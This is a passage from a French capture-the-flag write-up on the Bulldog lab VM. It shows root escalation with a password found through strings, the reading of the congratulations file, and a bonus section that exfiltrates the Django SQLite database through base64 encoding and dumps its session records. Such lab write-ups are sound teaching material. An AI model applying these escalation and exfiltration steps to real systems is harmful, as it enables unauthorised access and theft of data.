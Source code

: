 Nous y sommes presque ! [```strings```](https://en.wikipedia.org/wiki/Strings_(Unix)) laisse apparaître ```sudo su root``` et le mot de passe ```SUPERultimatePASSWORDyouCANTget```.

```console
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo su root
sudo su root
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Il ne reste plus qu'à lire le mot final de [Nick](https://frichetten.com/), et à le remercier chaudement pour cette excellente VM !

```console
root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# ls /root
ls /root
congrats.txt

root@bulldog:~# cat /root/congrats.txt
cat /root/congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

## Bonus n°1 : Exfiltration de la base de données SQLite3

```console
Command : echo $(base64 db.sqlite3)

--snip--
aGRYUm9MbUpoWTJ0bGJtUnpMazF2WkdWc1FtRmphMlZ1WkNJc0lsOWhkWFJvW
DNWelpYSmZhV1FpT2lJNEluMD0yMDE4LTAyLTIzIDIxOjU5OjUzLjI0OTI1NA==
```

```console
root@blinils:~# base64 -d bulldog.sqlite3 > db.sqlite3
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session            

sqlite> .headers on 

sqlite> select * from django_session;
session_key|session_data|expire_date
7c9ks1ywspnb2mu500z63zp178eo1zrh|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-02 06:37:06.605011
exuboafi4l2garfjmb92z041pspfodtl|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-09 02:48:23.352017
```